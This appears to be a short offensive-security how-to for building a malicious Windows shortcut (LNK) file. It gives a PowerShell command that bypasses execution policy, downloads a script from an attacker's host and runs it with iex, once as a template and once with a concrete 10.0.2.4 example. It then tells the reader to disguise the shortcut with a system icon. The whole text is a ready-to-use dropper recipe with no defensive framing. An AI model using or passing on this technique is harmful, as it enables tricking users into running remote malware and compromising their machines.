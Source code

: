 # How to create LNK file
- go to windows machine
- on desktop create shortcut
- in `type the location of the item` put
```
C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe -ExecutionPolicy Bypass -c "iex (iwr -UseBasicParsing http://<attacker_address>:<attacker_port>/<name_of_remote_malicious_ps_script>.ps1)"
```
- for example
```
C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe -ExecutionPolicy Bypass -c "iex (iwr -UseBasicParsing http://10.0.2.4/host.ps1)"
```
- Go to properties and Change Icon
- Into `Look for icons in the file` put `C:\Windows\System32\imageres.dll` and choose anything that relevant